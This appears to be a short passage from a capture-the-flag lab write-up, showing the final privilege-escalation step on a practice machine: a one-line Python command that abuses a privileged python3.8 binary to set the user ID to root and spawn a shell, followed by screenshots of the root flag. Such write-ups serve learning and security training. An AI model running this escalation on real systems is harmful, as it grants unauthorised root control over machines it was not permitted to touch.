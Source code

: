starting root shell with suid binary

```
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![alt text](imagesh3/image-57.png)

Found root flag


![alt text](imagesh3/image-58.png)

#### Greenhorn machine
